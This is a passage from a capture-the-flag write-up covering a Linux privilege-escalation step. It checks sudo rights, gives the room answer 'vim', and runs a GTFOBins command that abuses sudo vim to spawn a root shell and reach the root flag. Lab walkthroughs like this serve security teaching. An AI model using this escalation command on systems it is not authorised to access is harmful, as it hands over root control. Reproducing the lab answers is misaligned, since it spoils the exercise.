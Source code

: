 #### Check sudo -l

<figure><img src="../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

```
ANS: vim
```

### What's the root flag?

#### Check GTFOBINS

<figure><img src="../.gitbook/assets/image (123).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/vim/">https://gtfobins.github.io/gtfobins/vim/</a></p></figcaption></figure>

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/image (124).png" alt=""><figcaption><p>W3ll d0n3. You made it!</p></figcaption></figure>

